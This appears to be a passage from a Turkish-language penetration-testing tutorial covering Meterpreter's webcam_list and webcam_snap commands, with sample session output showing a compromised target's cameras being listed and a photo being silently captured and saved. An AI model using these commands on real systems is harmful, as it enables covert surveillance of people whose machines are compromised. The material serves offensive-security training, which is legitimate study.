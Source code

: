 
Hedef sistemde kullanılabilir durumda olan web kameralarını listeler.


```bash
meterpreter **&gt;** webcam_list
1: Creative WebCam NX Pro
2: Creative WebCam NX Pro **(**VFW**)**
meterpreter **&gt;**
```



## webcam_snap



Hedef sistemin web kamerasından bir adet fotoğraf alır ve yerelde bulunduğunuz klasöre .jpeg formatında kayıt eder.


```bash
meterpreter **&gt;** webcam_snap -i 1 -v false
**[*********]** Starting...
**[**+] Got frame
**[*********]** Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
meterpreter **&gt;**
```
